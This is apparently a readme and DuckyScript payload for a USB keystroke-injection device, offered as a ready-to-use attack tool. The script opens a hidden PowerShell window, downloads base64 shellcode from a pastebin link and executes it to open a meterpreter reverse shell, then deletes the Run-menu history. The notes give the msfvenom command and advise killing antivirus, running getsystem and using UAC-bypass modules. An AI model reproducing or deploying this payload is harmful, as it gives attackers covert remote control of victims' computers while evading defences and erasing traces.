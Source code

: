 * Author: Finianb1 + @0xCoto

* Target: Windows 10, probably works on Windows 7

* Description: Makes a meterpreter reverse shell by downloading base64 from pastebin. Clears run menu history afterwards.

* Configuration: Generate payload using this command: ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd --smallest```  Cut the payload down to JUST the base64. Upload to pastebin, my example: [https://pastebin.com/KQpwbiRS](https://pastebin.com/KQpwbiRS). Then, simply convert this URL to a raw URL by adding a /raw/ in it (https://pastebin.com/raw/KQpwbiRS) or by clicking on the "raw" button and copying the link. Now you have your URL!  
You can URL shorten it if you'd like, just make sure you use the raw link and not the normal pastebin link. Now change the ```$u='YOUR_LINK'``` to your URL (e.g. ```$u='https://pastebin.com/raw/KQpwbiRS'```). Then simply upload it to your rubber ducky, and you can get extremely fast shells.

* NOTE: It is recommended you migrate the shell and kill antivirus as soon as possible, as most antiviruses will pick up on a meterpreter shell and kill it. Running ```getsystem``` command on meterpreter is also great. Use the windows/local/bypassuac modules (find them with the command ```search bypassuac```, I find that ```exploit/windows/local/bypassuac_injection_winsxs``` works very well for my Windows 10 device, disabled antivirus of course!) for Windows 8 and up. This will allow you to bypass the UAC on windows, any level, and be able to freely run the ```getsystem``` command, which essentially lets you do anything.

* EDIT (28/09/2021): Using ```-UseBasicParsing``` you can fix a fatal error who happens when the target has not the Internet Explorer parser installed but you have to decode the response because is a ByteArray.

```
REM Opens a meterpreter using a pastebin link
REM See https://github.com/hak5/bashbunny-payloads/blob/master/payloads/library/remote_access/SingleSecondShell/readme.md
REM For how to create a link to your personal shellcode
DELAY 2000
GUI r
DELAY 1000
STRING powershell -windowstyle hidden $u='YOUR_LINK';$r=Invoke-WebRequest -Uri $u -UseBasicParsing;$s=[System.Text.Encoding]::UTF8.GetString($r.Content);powershell -nop -e $s
ENTER
GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden -Exec Bypass "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue"